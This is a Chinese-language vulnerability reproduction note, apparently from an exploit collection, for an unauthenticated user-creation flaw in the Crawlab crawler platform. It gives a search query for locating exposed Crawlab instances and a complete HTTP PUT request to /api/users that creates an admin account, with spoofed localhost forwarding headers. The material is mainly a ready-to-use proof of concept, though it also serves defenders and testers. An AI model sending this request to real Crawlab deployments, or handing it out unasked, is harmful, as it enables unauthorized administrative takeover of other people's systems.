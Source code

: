 # 

# Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

```
Crawlab v0.0.1
```

## 网络测绘

```
title="Crawlab"
```

## 漏洞复现

登录页面

![](./images/202205241444454.png)

首先查看路由位置 main.go 文件

![](./images/202205241444511.png)

```
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![](./images/202205241444706.png)

根据字段生成添加用户的请求

```
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![](./images/202205241444367.png)

![](./images/202205241444319.png)
